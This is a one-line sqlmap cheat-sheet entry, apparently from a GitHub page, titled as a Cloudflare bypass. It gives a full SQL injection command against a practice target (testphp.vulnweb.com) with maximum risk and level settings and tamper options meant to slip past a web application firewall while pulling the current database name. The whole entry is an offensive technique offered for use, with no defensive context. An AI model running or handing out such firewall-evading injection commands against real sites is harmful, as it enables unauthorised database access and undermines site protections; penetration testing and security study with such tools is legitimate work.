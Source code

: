 <h1>SQLmap</h1>

### Cloudflare bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
